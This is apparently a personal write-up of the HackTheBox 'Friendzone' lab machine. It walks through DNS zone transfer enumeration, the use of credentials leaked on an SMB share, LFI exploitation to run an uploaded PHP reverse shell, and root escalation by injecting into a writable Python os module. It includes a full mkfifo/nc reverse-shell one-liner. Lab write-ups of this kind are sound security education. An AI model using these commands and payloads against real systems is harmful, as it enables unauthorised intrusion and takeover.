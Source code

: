 +++
title = "Friendzone"
date = 2019-07-11
[taxonomies]
tags = ["hackthebox"]
+++

1. The initial `Nmap` scans shows the following ports opened:
	* 21, 22, 53, 80, 139, 443.

	Lets start with port 80. The site displays a web page that says “Have you ever been friendzoned?” with an image. The source code doesn't show much, it was coded with simple HTML tags.

	`GoBuster` scans shows an accessible `robots.txt` and wordpress file and directory. `robots.txt` doesn't contain anything besides “seriously?!”. The wordpress directory is blank and I began enumerating the directory to see if `gobuster` can find other hidden files/directories.

2. While `gobuster` is running, I'm moving on with enumerating port 53 which is a DNS service. With my limited experience with CTFs so far, I know that when port 53 is open for enumeration, a zone transfer command is required.

	Before I begin running DNS commands to enumerate the service, I have to figure out what is the domain name I am targeting. On the main `index.html` page:

	```shell
	Email us at: info@friendzoneportal.red
	```

	This means our target will be `friendzoneportal.red`. I'll add it to our host file.

	```shell
	10.10.10.123  friendzoneportal.red
	```

	Use dig to see if zone transfer is vulnerable:

	```shell
	dig axfr friendzoneportal.red @10.10.10.123
	```

	![htb-friendzone-dig1](htb-friendzone-dig1.png)

	Looks like it is. Lets try and navigate to each one and see if it will uncover more clues.

3. `https://admin.friendzoneportal.red` is the only URL that is accessible.

	![htb-friendzone-admin](htb-friendzone-admin.png)

	I haven't found any clues in regards to possible username and passwords. I tried the guessable combinations but no luck. Source code doesn't show anything interesting.

4. I'm moving to the next service, Samba shares. `Enum4linux` shows the following shares are accessible:

	![htb-friendzone-enum4linux](htb-friendzone-enum4linux.png)

	Connecting to the general share shows there is a `creds.txt` file that contains:

	```shell
	creds for the admin THING:

	admin:WORKWORKHhallelujah@#
	```

	I guess this is the credentials I'm looking for the admin panel? Lets try.

	![htb-friendzone-adminfail](htb-friendzone-adminfail.png)

	Darn, now I'm stuck on what to do here.

5. I guess I have to move to the next service, 443. My `Nmap` scan shows the SSL cert with a domain name that wasn't found on the main page:

	![htb-friendzone-ssl](htb-friendzone-ssl.png)

	`friendzone.red` domain?? I'll have to enumerate this domain using dig after adding the domain to our hosts file.

	![htb-friendzone-dig2](htb-friendzone-dig2.png)

	More domains has been uncovered. Lets see which one of these URLs lead to anything.

	![htb-friendzone-administrator1](htb-friendzone-administrator1.png)

6. Trying the same login that I found in `creds.txt`, it worked! It page tells us that I should navigate to a `dashboard.php` page that shows:

	![htb-friendzone-dashboard](htb-friendzone-dashboard.png)

	Navigating to the url shows us this:

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp
	```

	![htb-friendzone-imageparam](htb-friendzone-imageparam.png)

	I proceeded to try and see if it's vulnerable to LFI/RFI but no luck. See if it's vulnerable to PHP wrappers, no luck.

	![htb-friendzone-lfi](htb-friendzone-lfi.png)

	I began enumerating again using `dirsearch` on `administrator1.friendzone.red`. While that is running, I noticed `https://uploads.friendzone.red/files/` is accessible.

	![htb-friendzone-uploads](htb-friendzone-uploads.png)

	I tried uploading a php file with reverse shell code and a message indicates it has been “uploaded successfully”. I tried the possible ways of accessing this file stored somewhere but no where can be found even through Samba mapping. Is it possible that this form's response is misleading? Pressing the upload button without a file attachment renders “upload successful” message as well. I believe this is a rabbit hole.

7. Going back to `dirsearch` results, it found a `timestamp.php` file. This is the file that renders the timestamp on the dashboard page.

	After reading through my nmap scripts carefully, I noticed that the smb script found the paths where the file are being stored. The `development` share shows that the files are stored at `/etc/Development` folder.

	![htb-friendzone-scriptpath](htb-friendzone-scriptpath.png)

	I guess I can try to upload my reverse shell to development shared folder and try to LFI the path? I figure this would be a good guess because I know that the dashboard page tells us to load parameters to render the images and timestamp. I can only guess that the “pagename=” parameter can load other files.

	```shell
	smbclient //10.10.10.123/development
 
	put rs.php
	```

	Navigating the url:

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rs.php
	```

	Nada. Not sure why it's not working. Taking a step back, look at how “timestamp” loads in the parameter, it doesn't use a .php extension. Lets try without the php extension.

	```
	https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rs
	```

	Tada, a successful low privilege shell to obtain user flag.

	![htb-friendzone-userflag](htb-friendzone-userflag.png)

### Privilege Escalation

1. Ran the standard `linenum` and `linuxprivchecker` scripts, I noticed something unusual with this python script:

	![htb-friendzone-ospy](htb-friendzone-ospy.png)

	Why would an OS python module require 777? I'll take a note of this just in case I need it.

2. While I'm digging through this system and see if there are useful information to be found, I located this credential file at `/var/www/mysql_data.conf`.

	![htb-friendzone-mysqlcreds](htb-friendzone-mysqlcreds.png)

	I tried using this credential to log into SSH and indeed it works. Full user shell has been achieved.

3. After spending some time on the system, I don't see anything else that immediately stands out. Time to run `pspy64` and see what is running on the background.

	After waiting awhile, I noticed there is a python scripts that runs as `UID=0` which is root account.

	![htb-friendzone-pspy64](htb-friendzone-pspy64.png)

4. Taking a look at what the `reporter.py` script is about, it's' importing the OS module as seen earlier.

	![htb-friendzone-reporter](htb-friendzone-reporter.png)

	This is our ticket to run as root privileges as all I have to do is inject code into the `os.py` module as I have full privileges to the file and the `reporter.py` script doesn't.

5. Inject this code at the very end of the `os.py` file.

	```python
	system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f')
	```

6. Wait for the cronjob to run and you should be able to get the reverse shell and obtain the root flag.

	![htb-friendzone-pspyafter](htb-friendzone-pspyafter.png)

	![htb-friendzone-rooted](htb-friendzone-rooted.png)
